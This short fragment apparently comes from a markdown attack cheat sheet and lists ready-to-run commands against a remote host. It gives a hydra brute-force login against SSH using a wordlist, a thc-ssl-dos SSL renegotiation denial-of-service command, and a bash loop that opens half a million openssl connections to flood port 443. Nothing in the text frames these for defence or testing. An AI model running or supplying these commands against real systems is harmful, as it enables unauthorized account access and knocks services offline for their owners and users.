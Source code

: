 ### SSH

```bash
# SSH login brute force attack
hydra -l $username -P /usr/share/wordlists/sqlmap.txt ssh://$remote_ip
```

### SSL

```bash
# SSL Renegotiation Attack
thc-ssl-dos $remote_ip 443

# SSL Request Flood
for (( i = 0; i <=500000; i++)); do openssl s_client -connect $remote_ip:443; done
```
